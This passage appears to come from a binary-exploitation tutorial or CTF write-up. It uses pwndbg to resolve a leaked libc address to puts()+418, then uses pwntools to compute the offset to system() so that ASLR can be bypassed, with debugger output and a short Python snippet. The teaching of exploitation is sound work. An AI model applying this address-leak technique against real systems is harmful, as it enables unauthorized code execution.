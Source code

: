 `0x00007f036a035bd2` resides in the range `0x7f0369fb5000-0x7f036a19c000`, which
corresponds to libc's text section.

Let's see if pwndbg can tell us which function this is:

```
pwndbg> x/10i 0x00007f036a035bd2
   0x7f036a035bd2 <_IO_puts+418>:       cmp    eax,0xffffffff
   0x7f036a035bd5 <_IO_puts+421>:       jne    0x7f036a035b28 <_IO_puts+248>                                                                                                                                                          ───────
   0x7f036a035bdb <_IO_puts+427>:       jmp    0x7f036a035ba1 <_IO_puts+369>
   0x7f036a035bdd <_IO_puts+429>:       test   DWORD PTR [rbp+0x0],0x8000
   0x7f036a035be4 <_IO_puts+436>:       mov    rsi,rax
   0x7f036a035be7 <_IO_puts+439>:       jne    0x7f036a035c28 <_IO_puts+504>
   0x7f036a035be9 <_IO_puts+441>:       mov    rdx,QWORD PTR [rbp+0x88]
   0x7f036a035bf0 <_IO_puts+448>:       sub    DWORD PTR [rdx+0x4],0x1
   0x7f036a035bf4 <_IO_puts+452>:       jne    0x7f036a035c28 <_IO_puts+504>
   0x7f036a035bf6 <_IO_puts+454>:       mov    QWORD PTR [rdx+0x8],0x0
```

Looks like this address is 418 bytes into the `puts()` function within libc.
Let's double check the math:

```
pwndbg> x/10i 0x00007f036a035bd2-418
   0x7f036a035a30 <_IO_puts>:   push   r13
   0x7f036a035a32 <_IO_puts+2>: push   r12
   0x7f036a035a34 <_IO_puts+4>: mov    r12,rdi
   0x7f036a035a37 <_IO_puts+7>: push   rbp
   0x7f036a035a38 <_IO_puts+8>: push   rbx
   0x7f036a035a39 <_IO_puts+9>: sub    rsp,0x8
   0x7f036a035a3d <_IO_puts+13>:        call   0x7f0369fd6100 <*ABS*+0x9dce0@plt>
   0x7f036a035a42 <_IO_puts+18>:        mov    rbp,QWORD PTR [rip+0x36bdff]        # 0x7f036a3a1848
   0x7f036a035a49 <_IO_puts+25>:        mov    rbx,rax
   0x7f036a035a4c <_IO_puts+28>:        mov    eax,DWORD PTR [rbp+0x0]
```

Yep, all that stack manipulation looks like a function preamble, so that passes
the sanity check.

Even though the absolute address of libc will vary each time the process loads,
the contents of the libc library will remain consistent. This means we can
compute the absolute address of `system()` by first using pwntools to measure
how far apart `puts()` and `system()` are within the libc binary, and then add
or subtract that number of bytes from the leaked address corresponding to
`puts()` + 418.

```py
from pwn import *
libc = ELF("./libc.so.6")
In [25]: libc.symbols['puts'] + 418 - libc.symbols['system']
Out[25]: 202482
```

It turns out pwntools includes convenience data structures for this purpose and
for improved reliability / portability:
